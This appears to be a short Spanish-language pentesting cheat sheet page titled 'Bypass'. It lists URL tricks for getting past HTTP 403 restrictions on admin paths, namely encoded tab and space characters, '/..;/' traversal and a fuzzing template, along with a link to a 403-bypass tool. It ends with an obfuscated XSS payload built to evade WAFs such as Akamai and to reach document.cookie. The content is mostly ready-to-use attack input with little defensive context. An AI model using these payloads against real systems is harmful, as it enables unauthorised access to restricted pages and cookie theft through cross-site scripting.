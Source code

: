 ```yaml
---
icon: face-shush
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Bypass



## <mark style="color:orange;">Error 403</mark>

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```
git clone https://github.com/nazmul-ethi/Bypass-Four03.git
```

## <mark style="color:orange;">Alternativas para bypass 403</mark>

1- Usar símbolos de espacio

```
/admin -> 403
```

```
/admin%09 -> 200
```

```
/admin%20 -> 200
```

2- Usar el recorrido transversal:

```
/admin -> 403
```

```
/..;/admin -> 200
```

A veces se puede hacer un fuzz con el recorrido que termina con los resultados

```
/..;/FUZZ
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:orange;">Bypass XSS WAF and Filters and Akamai</mark>

```
%22onmouseover=window[%27al%27%2B%27er%27%2B([%27t%27,%27b%27,%27c%27][0])](document[%27cooki%27%2B(['e','c','z'][0])]);%22
```
